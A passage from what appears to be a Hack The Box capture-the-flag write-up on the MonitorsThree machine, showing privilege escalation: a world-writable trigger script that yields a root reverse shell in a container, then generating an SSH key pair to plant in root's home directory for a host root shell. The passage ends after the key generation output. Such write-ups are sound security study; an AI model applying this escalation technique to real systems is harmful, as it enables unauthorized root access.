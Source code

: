 ## Configuring Trigger to Execute Script  - Attempt 3 (SUCCESS)

Updated the permissions of the script to 777 so everyone has access.

```
marcus@monitorsthree:/tmp$ chmod 777 script.sh
```

That fixed the problem and a reverse shell returned as the root user. However the root user was on the docker image only. I could still read from the host file system with root access. However in order to get a real root shell I would need to transfer SSH keys into the root home directory.

![c4c8e052b1a629273cb1cb5e0ed85736.png](/assets/img/c4c8e052b1a629273cb1cb5e0ed85736.png)

# Root Shell

The below output shows the process of adding keys to roots home directory in order to obtain a root shell on the host.

```
┌──(kali㉿kali)-[~/hackthebox/monitoredthree]
└─$ ssh-keygen -f root.key                                                 
Generating public/private ed25519 key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in root.key
Your public key has been saved in root.key.pub
The key fingerprint is:
SHA256:BoyE3vAsZm22mGFT1hqpMcuitPDnGpGv7YWMonUOaqo kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|   ..o           |
|  =.=o.          |
| o &.oo          |
|o.%.O  .         |
|+*+O .  S        |
|..+=o. .         |
|. =o= .          |
|.= B..           |
|E oo+            |
+----[SHA256]-----+
```
